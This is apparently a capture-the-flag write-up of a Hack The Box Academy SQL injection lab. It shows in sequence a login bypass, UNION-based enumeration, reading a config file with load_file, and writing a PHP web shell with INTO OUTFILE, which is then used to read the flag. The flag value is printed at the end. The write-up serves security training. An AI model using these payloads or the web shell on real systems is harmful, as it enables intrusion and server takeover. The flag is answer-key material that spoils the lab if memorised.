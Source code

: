# Write-up: SQL Injection Fundamentals

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| SQL Injection | Medium | Hack The Box Academy | SQLi Detection, `UNION`-based, Data exfiltration |

---

# Context

The company Inlanefreight has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

# Exercise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process

## Step 1 "Access to the site"
Try to access without credentials using:

```SQL
admin' or '1' = '1'
```

![Login screen with query to get access](./assets/login.png "Login Screen")

## Step 2 "ORDER BY"
Once we have access to the site, we see a table with information.

We need to check how many columns this table has so we can do a `UNION` with another table.

In this case, it has 5, we know that because if we try to `ORDER BY 6-- `it throws an error, but with `ORDER BY 5-- ` it works.
![Table with four columns](./assets/table_order_by.png "ORDER BY 5")

## Step 3 "User Privileges"
Now we want to know if we have super privileges, the current user, and the version of the DBMS.

To do that, we can use:
```SQL
cn' UNION SELECT 1, super_priv, CURRENT_USER(), @@VERSION, 5 FROM mysql.user WHERE user="root"-- 
```
![Table with user information](./assets/check_user.png "User privileges")

## Step 4 "Write File Privileges"
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We already have the `FILE` privilege enabled; we need to know the value of the `secure_file_priv`.
```SQL
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
![Table showing that SECURE_FILE_PRIV is empty](./assets/empty_secure_file_priv.png "SECURE_FILE_PRIV empty")

As we notice, the second column is empty, which means the variable is **not** enabled.

## Step 5 "File path"
A usual route for the configuration file in Debian/Ubuntu systems is `000-default.conf`

Now let's get the route to save the file with:
```SQL
cn' union select 1, load_file('/etc/apache2/sites-enabled/000-default.conf'), 3, 4, 5--
```
We are gonna get a large text with a DocumentRoot value, in this case the value is `/var/www/html`.
![Document root](./assets/doc_root.png "Document root")

## Step 6 "Save File"
Save the file in the right path with:
```SQL
cn' union select 1,'<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- 
```

## Step 7 "Explore folders"
Explore the files of the server with the `shell.php` file we just created:
http://94.237.57.115:30683/dashboard/shell.php?cmd=ls%20../../../../

## Step 8 "Get Flag"
Read the flag with 
http://94.237.57.115:30683/dashboard/shell.php?cmd=cat%20../../../../flag_cae1dadcd174.txt
![flag found](./assets/flag_path.png "Flag")

### Result
```
528d6d9cedc2c7aab146ef226e918396
```
# Conclusion
This exercise demonstrates the critical importance of input validation. A simple unprotected search field can lead to a complete database compromise. Code-level remediation is the only effective solution.
